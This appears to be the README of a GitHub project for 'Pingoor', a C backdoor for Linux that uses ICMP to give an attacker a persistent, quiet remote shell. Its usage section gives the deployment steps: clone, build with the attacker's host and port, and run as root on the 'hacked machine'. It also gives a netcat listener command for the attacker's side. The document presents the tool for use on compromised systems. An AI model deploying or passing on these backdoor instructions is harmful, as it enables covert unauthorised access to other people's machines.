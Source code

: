 <h1 align="center">「🚪」About Pingoor</h1>

<p align="center"><img src="assets/banner.png"></p>

<p align="center">Pingoor is a backdoor developed in C for the GNU/Linux operating system. Its main characteristic is to use the ICMP protocol to give the attacker access to the shell of a machine, making its access persistent with little noise.</p>

## How to Use

```
# Hacked machine
$ git clone https://github.com/MrEmpy/Pingoor.git
$ cd Pingoor
$ HOST=<YOURHOST> PORT=<YOURPORT> make
$ sudo ./pingoor
```

```
# Attacker machine
nc -lnvp <YOURPORT>
```
